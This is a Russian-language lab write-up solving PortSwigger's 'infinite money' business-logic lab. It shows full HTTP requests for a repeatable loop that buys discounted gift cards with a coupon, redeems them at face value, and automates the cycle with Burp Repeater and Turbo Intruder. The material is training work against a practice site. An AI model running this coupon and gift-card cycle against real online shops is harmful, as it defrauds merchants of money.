


лаба https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money
#### Логический изъян бесконечных денег
купите "Легкую кожаную куртку l33t"

------

на сайте можно купить подарочную карту- которой можно погашать платежи

и еще я получил купон на скидку SIGNUP30    в 30 проц


вот запрос на активацию купона

```http
POST /cart/coupon HTTP/2
Host: 0a4800d30428a7fe809c62e300700009.web-security-academy.net
Cookie: session=Db8AI8rK3C4XaG88NsXqJPfT2qQTm5vx
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=lBoueEGJ6we9gz4kkMIappKAUePkbXfO&coupon=SIGNUP30
```

1  попробую увеличить размер скидки
2 попробую отправить паралельные запросы одновременно на применение кода
3 может можно как-то манипулировать товарами в корзине и применять промокод?
4 повторно применять один и тот же купон не получается 

-----

1  попробую увеличить размер скидки   - не сработало - ответ Invalid coupon

2 попробую отправить паралельные запросы одновременно на применение кода 
не получилось - не позволяет параленьно применить несколько кодов сразу

------

идея с подарочной картой и купоном

сейчас купон дает скидку 400 долларов
подарочная карта стоит 10 
можно купить 40 карт на сумму этого купона

но нужно как-то убрать куртку из корзины для этого!

-----


вот запрос - когда денег не хватает на счете
```http
GET /cart?err=INSUFFICIENT_FUNDS HTTP/2
Host: 0a4800d30428a7fe809c62e300700009.web-security-academy.net
Cookie: session=Db8AI8rK3C4XaG88NsXqJPfT2qQTm5vx
Cache-Control: max-age=0
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

сейчас куплю карту подарочную за 10 баксов на 10 баксов

ааааааааа- я увидел!!

епта!! 

это же как чит код на бабки )

логика проста (не знаю, сработает ли)




гифт карта стоит 10 баксов
с промокодом стоит 7 баксов
но если активирую ее - то получу 10 баксов

то есть я покупаю за 7 а получаю 10 = выгода в 3 бакса за одну операцию!

--------

я провернул один круг операции и счет стал больше на 3 бакса!!

отлично!

теперь нужно бы это все автоматизировать

...


-----
ЭТО МОЖНО АВТОМАТИЗИРОВАТЬ

запрос первый - покупка карт 10 шт для начала

```http
POST /cart HTTP/2
Host: 0a4800d30428a7fe809c62e300700009.web-security-academy.net
Cookie: session=gil8DkovLtXpj0YJLPgbSfvaEgRUa9pS
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

productId=2&redir=PRODUCT&quantity=10
```


запрос второй - применение промокода 

```http
POST /cart/coupon HTTP/2
Host: 0a4800d30428a7fe809c62e300700009.web-security-academy.net
Cookie: session=gil8DkovLtXpj0YJLPgbSfvaEgRUa9pS
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=D4QNhDxNuTlM0LARnEXp4oeFefEsetjS&coupon=SIGNUP30
```


запрос третий покупка гиф карт

```http
POST /cart/checkout HTTP/2
Host: 0a4800d30428a7fe809c62e300700009.web-security-academy.net
Cookie: session=gil8DkovLtXpj0YJLPgbSfvaEgRUa9pS
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=D4QNhDxNuTlM0LARnEXp4oeFefEsetjS
```

шаг четвертый - парсим ответ html и получаем коды 
```html
                               <th>Code</th>
                            </tr>
                            <tr>
                                <td>02ikl71fbQ</td>
                            </tr>
                            <tr>
                                <td>CzyWF32qpR</td>
                            </tr>
                            <tr>
                                <td>6EQmCCnobE</td>
                            </tr>
                            <tr>
                                <td>SWnc9Cyx6U</td>
                            </tr>
                            <tr>
                                <td>vcleQZGL4T</td>
                            </tr>
                            <tr>
                                <td>k5fy9N1yRZ</td>
                            </tr>
                            <tr>
                                <td>GevPHswEbK</td>
                            </tr>
                            <tr>
                                <td>DKqgw6dolp</td>
                            </tr>
                            <tr>
                                <td>pl46WSTqqg</td>
                            </tr>
                            <tr>
                                <td>S1OvndK8J7</td>
                            </tr>
                            <tr>
                                <td>9MefWORFrD</td>
                            </tr>
                            <tr>
                                <td>2MjNN7BXtR</td>
                            </tr>
                            <tr>
                                <td>fNVWOxKcJr</td>
                            </tr>
                            <tr>
                                <td>tVayPT4SK3</td>
                            </tr>
```

шаг пятый - применяю код за кодом

```http
POST /gift-card HTTP/2
Host: 0a4800d30428a7fe809c62e300700009.web-security-academy.net
Cookie: session=gil8DkovLtXpj0YJLPgbSfvaEgRUa9pS
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4800d30428a7fe809c62e300700009.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=D4QNhDxNuTlM0LARnEXp4oeFefEsetjS&gift-card=02ikl71fbQ
```

и вот уже счет 145 баксов = деньги из воздуха

-----

то есть я могу создать скрипт на питоне, который повторит эти 5 шагов...
но сейчас ночь уже и так лень ))

-----
### лаба решена!

я автоматизировал эту лабу очень простым способом




я добавил в каждую отдельную вкладку репитера пашагово действия

первое дествие - добавляю например 90 подарочных карт
второе дествие - применяю промокод
треть - покупаю все чт ов корзине
четвертое - полчаю чек с кодами купонов

6 - даю быстро gpt он мне их парсит из html за пару сек и выдает список

7 - через турбо-интрудер применяю эти промокоды 

каждый такой цикл прибавляет +30% от текущей цены
итого минут 15 и все готово! куртку купил!

-----


